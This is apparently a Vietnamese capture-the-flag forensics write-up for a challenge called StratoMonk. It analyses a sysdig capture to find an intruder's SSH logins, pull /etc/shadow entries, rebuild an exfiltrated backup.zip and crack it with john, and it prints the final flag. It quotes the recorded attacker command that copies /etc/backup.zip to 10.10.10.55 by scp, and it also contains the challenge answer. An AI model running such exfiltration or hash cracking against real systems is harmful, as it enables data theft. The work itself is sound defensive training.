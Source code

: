 # StratoMonk 
![image](https://hackmd.io/_uploads/r1AEtDkRJx.png)

> Tệp scap này được sysdig ghi lại các sự kiện hệ thống, cho nên có thể phân tích hoạt động của hệ thống.

## User

Dùng strings phát hiện ra các lần đăng nhập từ xa thông qua sshd của user: dark_monkey

![image](https://hackmd.io/_uploads/Hy0tGCkC1g.png)

## Password

Vì là bản ghi lại hệ thống nên ta có thể xem được các lần đăng nhập hay mật khẩu được lưu tại file __/etc/shadow/__. Thực hiện grep theo user vừa tìm được

![image](https://hackmd.io/_uploads/S1E-EC10kx.png)

Ở trên có cả 2 thông tin của file /etc/passwd và /etc/shadow, cần mật khẩu nên ta chỉ cần lưu thông tin của /etc/shadow

![image](https://hackmd.io/_uploads/SkY_4AkCJg.png)

## Sensitive Data

Vì tìm dữ liệu bị đánh cắp nên ta sẽ tìm theo SCP

> scp là viết tắt của Secure Copy Protocol, là một lệnh dùng để sao chép file giữa máy local và máy remote (hoặc giữa hai máy remote) qua giao thức SSH

![image](https://hackmd.io/_uploads/Bk6fBA1R1l.png)

`scp /etc/backup.zip SpecialAgent@10.10.10.55:/tmp/backup.zip
`
Lệnh trên thực hiện gửi file /backup.zip đến địa chỉ 10.10.10.55 từ xa. Đây có thể là dấu hiệu của việc đánh cắp dữ liệu

Mình sử dụng công cụ mạnh hơn để phân tích sự kiện hệ thống là sysdig

``
sysdig -r stratomonk2.scap "evt.type == read and fd.name contains '/etc/backup.zip'"
``

- Giải thích:

| **Phần** | **Ý nghĩa** |
|----------|-------------|
| `sysdig` | Gọi công cụ sysdig để phân tích sự kiện hệ thống |
| `-r stratomonk2.scap` | Đọc file `stratomonk2.scap` (file chứa các sự kiện hệ thống đã được ghi lại trước đó) |
| `"evt.type == read and fd.name contains '/etc/backup.zip'"` | Lọc các sự kiện có kiểu là `read` (tức là process đang đọc dữ liệu từ đâu đó) và tên file được đọc có chứa chuỗi `/etc/backup.zip` |

![image](https://hackmd.io/_uploads/SkS0dC10kg.png)

Có thể thấy một process scp có một yêu cầu read để đọc file backup.zip nhưng chỉ được trả về 256 byte, giờ muốn lấy được file zip hoàn chỉnh thì phải lọc theo lệnh read rồi ghép các phần data đó lại.

Sau một hồi thì mình cũng đã có được file  .zip

![image](https://hackmd.io/_uploads/Hk3iKCJ0kx.png)

Dùng john để crack 

![image](https://hackmd.io/_uploads/Bys0KCJ0Jl.png)

Dùng pass đó giải nén ta được phần 3 của flag

![image](https://hackmd.io/_uploads/BklN5Ck0Je.png)

```
Flag: ZiTF{dark_monkey:m0NK3y!_s3CR3t_N0t3s:=)}
```
